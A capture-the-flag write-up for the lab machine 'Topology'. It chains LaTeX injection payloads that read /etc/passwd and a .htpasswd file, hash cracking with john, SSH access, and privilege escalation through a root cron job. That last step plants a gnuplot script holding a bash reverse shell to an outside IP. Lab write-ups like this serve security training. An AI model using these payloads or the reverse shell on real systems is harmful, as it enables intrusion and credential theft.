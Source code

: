 we hadd the ip address to /etc/hosts:

	sudo nano /etc/hosts
	10.10.11.217	topology.htb

we start by enumerate the ports:

	rustscan -a 10.10.11.217

output:

	Open 10.10.11.217:22
	Open 10.10.11.217:80

the 80 is open, so we can visti the website, in the main page there is a link to a vhost called latex.topology.htb, so we do the same process to add the subdomain at /etc/hosts:

	sudo nano /etc/hosts
	10.10.11.217	topology.htb latex.topology.htb

the main use the latex code in order to generate images, it's time to exploit it, so we can search on internet "latex RCE", and we find this github repo:

	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

I tried some payloads but only one it works:

	$\lstinputlisting{/etc/passwd}$

we can see that there is a user called vdaisley, so we continue with the LFI.
The winning payload it was this one:

	$\lstinputlisting{/var/www/dev/.htpasswd}$

output:

	vdaisley:{REDACTED}

the password is hashed, we can use john in order to retrieve the password:

	john hash.txt -w /usr/share/wordlists/rockyou.txt

we have the credentials to connect into SSH by using pwncat:

	python3 -m pwncat
	connect ssh://vdaisley:{REDACTED}@10.10.11.217

We're in and we can retrieve the user flag.
This time instead upload and run linpeas.sh, I want use pspy64:

	pwncat> upload /home/user/Desktop/Pentest/pspy64   /tmp/pspy64 
	chmod +x pspy64
	./pspy64

output:

	/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;

the output above is very suspicious, root execute every .plt script inside the /opt/gnuplot and the /gnuplot is world-executable and world-writable so we can enter a revshell inside a .plt script

	nano shell.plt
	system "/bin/bash -i >& /dev/tcp/10.10.16.75/5555 0>&1"

we open a listener:

	python3 -m pwncat
	connect -lp 5555

after some minutes, we recieve the revshell,we're root and we can retrieve the root.txt.


